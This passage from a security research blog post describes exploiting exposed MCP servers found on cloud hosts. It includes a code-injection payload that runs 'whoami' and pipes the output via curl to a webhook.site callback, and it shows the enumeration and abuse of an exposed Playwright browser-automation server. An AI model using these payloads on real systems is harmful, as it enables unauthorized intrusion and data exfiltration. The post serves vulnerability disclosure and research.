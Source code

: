 Our instructions of sleeping for 5 seconds caused a 5-second increase in response time, that's a good sign to me. Now to fully prove impact, we can run a _Windows_ system command and exfiltrate its output:

```hljs shell
$ mcpc http://13.███.██.██:8000 execute_diagrams_code '{"diagrams_code": "__import__(\"os\").system(\"whoami | curl.exe https://webhook.site/41██████-████-████-████-██████████2f -d@-\")", "filename": "x"}'

Error during execution: [Errno 2] No such file or directory: 'C:\\Users\\a██████k\\Downloads\\WORK\\MCP\\Diagarams mcp\\diagrams_tmp\\x.png'
```

![Screenshot of webhook.site callback with whoami output](https://blog.jaisal.dev/assets/mcp-python-callback.png)

> `ec2amaz-███████\a██████k`

We're a Windows user on an Amazon EC2 instance, which makes sense because we were scanning cloud providers.

### Vulnerabilities

#### Browser file:// protocol

While looking at popular MCP servers, we already saw [Playwright](https://github.com/microsoft/playwright-mcp ""). This lets an LLM automate a browser like the one you're reading this post with. It turns out that this is such a common server that multiple exposed instances were found. Here's one:

```hljs shell
$ mcpc http://35.██.███.███:8080

Name: 'Playwright'
-> Tools:
   1. Close the page
      browser_close '{}'
...
   1. Press a key on the keyboard
      browser_press_key '{"key": ""}'
   2. Navigate to a URL
      browser_navigate '{"url": ""}'
...
```

Pretty powerful functionality, but not a straightforward way to RCE in sight. Still, using `browser_navigate` we can navigate it to any URL we like, and even get the response:

````hljs shell
$ mcpc http://35.██.███.███:8080 browser_navigate '{"url": "https://example.com"}'
- Ran code:
```js
// Navigate to https://example.com
await page.goto('https://example.com');
```

- Page URL: https://example.com/
- Page Title: Example Domain
- Page Snapshot
```yaml
- heading "Example Domain" [level=1] [ref=s1e4]
- paragraph [ref=s1e5]: This domain is for use in illustrative examples in
    documents. You may use this domain in literature without prior coordination
    or asking for permission.
- paragraph [ref=s1e6]:
    - link "More information..." [ref=s1e7]:
        - /url: https://www.iana.org/domains/example
```
````

